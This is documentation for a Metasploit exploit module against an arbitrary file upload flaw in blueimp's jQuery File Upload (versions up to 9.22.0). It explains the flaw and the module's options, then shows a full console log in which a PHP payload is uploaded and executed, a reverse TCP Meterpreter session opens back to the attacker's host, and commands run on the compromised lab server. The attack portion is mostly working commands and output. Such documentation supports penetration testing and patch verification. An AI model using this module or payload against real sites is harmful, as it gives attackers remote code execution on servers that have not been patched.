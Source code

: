 ## Intro

This module exploits an arbitrary file upload in the sample PHP upload
handler for blueimp's jQuery File Upload widget in versions <= 9.22.0.

Due to a default configuration in Apache 2.3.9+, the widget's `.htaccess`
file may be disabled, enabling exploitation of this vulnerability.

This vulnerability has been exploited in the wild since at least 2015
and was publicly disclosed to the vendor in 2018.

## Setup

<https://github.com/blueimp/jQuery-File-Upload/wiki/Setup#using-jquery-file-upload-ui-version-on-php-websites>

## Targets

```
Id  Name
--  ----
0   PHP Dropper
1   Linux Dropper
```

## Options

**TARGETURI**

Set this to the base path of jQuery File Upload. `/jQuery-File-Upload`
and those including a version are common. `/upload` may be another.
You may want to use another tool like `dirb` to handle enumeration.

## Usage

```
msf5 exploit(unix/webapp/jquery_file_upload) > check

[*] Checking /jQuery-File-Upload/server/php/index.php
[+] Found /jQuery-File-Upload/server/php/index.php
[*] 172.28.128.3:80 The target service is running, but could not be validated.
msf5 exploit(unix/webapp/jquery_file_upload) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Checking /jQuery-File-Upload/server/php/index.php
[+] Found /jQuery-File-Upload/server/php/index.php
[*] Uploading payload
[+] Payload uploaded: http://172.28.128.3/jQuery-File-Upload/server/php/files/yJF5WXoQgkwW1zK9nDxialLMXg.php
[*] Executing payload
[*] Sending stage (37775 bytes) to 172.28.128.3
[*] Meterpreter session 1 opened (172.28.128.1:4444 -> 172.28.128.3:54382) at 2018-10-22 22:20:20 -0500
[*] Deleting payload

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : ubuntu-xenial
OS          : Linux ubuntu-xenial 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64
Meterpreter : php/linux
meterpreter >
```
